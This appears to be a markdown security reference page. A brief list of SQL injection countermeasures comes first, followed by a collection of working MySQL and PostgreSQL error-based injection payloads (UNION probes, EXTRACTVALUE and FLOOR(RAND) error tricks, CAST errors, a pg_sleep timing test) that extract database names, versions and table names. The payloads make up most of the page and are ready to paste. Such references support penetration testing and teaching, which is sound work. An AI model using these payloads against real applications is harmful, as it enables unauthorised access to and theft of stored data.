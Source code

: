 ## Countermeasures

- Penetration testing (manual, with tool)
- Source code analysis
- Wep Application Firewall (WAF)
- Remove debugging messages
- Database account with minimal privileges
- Input validation
- Filter data
- Customize error messages
- IDS

# Advanced SQL Injection Payloads and Techniques

## Error-Based SQL Injection Payloads

### MySQL Error-Based Injection
```sql
-- Basic Error-Based Payloads
' OR 1=1-- -
' UNION SELECT NULL,NULL,NULL-- -
' AND (SELECT COUNT(*) FROM INFORMATION_SCHEMA.TABLES)-- -

-- Advanced Error-Based Techniques
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)-- -
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE()),0x7e))-- -
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)-- -

-- Data Extraction via Error Messages
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=DATABASE() LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)-- -
```

**Documentation**: Exploits database error messages to extract information when direct output is not available.
**Limitations**: Requires verbose error messages; may not work with error suppression; detected by WAFs.

### PostgreSQL Error-Based Injection
```sql
-- PostgreSQL Error-Based Payloads
' AND CAST((SELECT version()) AS int)-- -
' AND CAST((SELECT current_database()) AS int)-- -
' AND CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)-- -

-- Advanced PostgreSQL Techniques
'; SELECT CASE WHEN (SELECT current_user)='postgres' THEN pg_sleep(5) END-- -
' UNION SELECT NULL,CAST((SELECT string_agg(table_name,',') FROM information_schema.tables) AS int)-- -
```
